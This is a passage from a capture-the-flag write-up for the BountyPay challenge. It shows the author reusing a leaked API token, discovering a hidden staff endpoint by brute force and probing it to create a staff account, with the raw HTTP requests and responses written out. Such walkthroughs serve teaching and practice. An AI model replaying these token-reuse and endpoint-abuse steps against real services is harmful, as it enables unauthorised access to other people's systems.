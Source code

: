 Ok, so from the whole of Android challenge, we understood that we could use the header `X-Token: 8e9998ee3137ca9ade8f372739f062c1` with the host `http://api.bountypay.h1ctf.com`.

And indeed we can confirm it works as authentication for the API endpoints:

```http
GET /api/accounts/F8gHiqSdpK/statements?month=05&year=2020 HTTP/1.1
Host: api.bountypay.h1ctf.com
X-Token: 8e9998ee3137ca9ade8f372739f062c1
```

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"description":"Transactions for 2020-05","transactions":[]}
```

Great. But what does it really give us? We could have already made GET requests via SSRF. What we can do now that we could not do with SSRF is make POST requests, so that must be the next step we're looking for.

Endpoints known to us so far under `/api` did not respond to POST requests - so it's time for Content Discovery again. I've fired a bruteforce to look for new endpoints that respond to POST (as we'll see later, GET would have worked as well) and after a bit I found the new endpoint:

```http
POST /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
X-Token: 8e9998ee3137ca9ade8f372739f062c1
```

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json

["Missing Parameter"]
```
So we're missing some parameter. Checking the GET request for the same endpoint:
```http
GET /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
X-Token: 8e9998ee3137ca9ade8f372739f062c1
```

```http
HTTP/1.1 200 OK
Content-Type: application/json

[{"name":"Sam Jenkins","staff_id":"STF:84DJKEIP38"},{"name":"Brian Oliver","staff_id":"STF:KE624RQ2T9"}]
```
we see a new parameter, `staff_id`. Back to the POST endpoint, trying one of those staff ids gives us:
```http
POST /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
X-Token: 8e9998ee3137ca9ade8f372739f062c1

staff_id=STF:KE624RQ2T9
```
```http
HTTP/1.1 409 Conflict
Content-Type: application/json

["Staff Member already has an account"]
```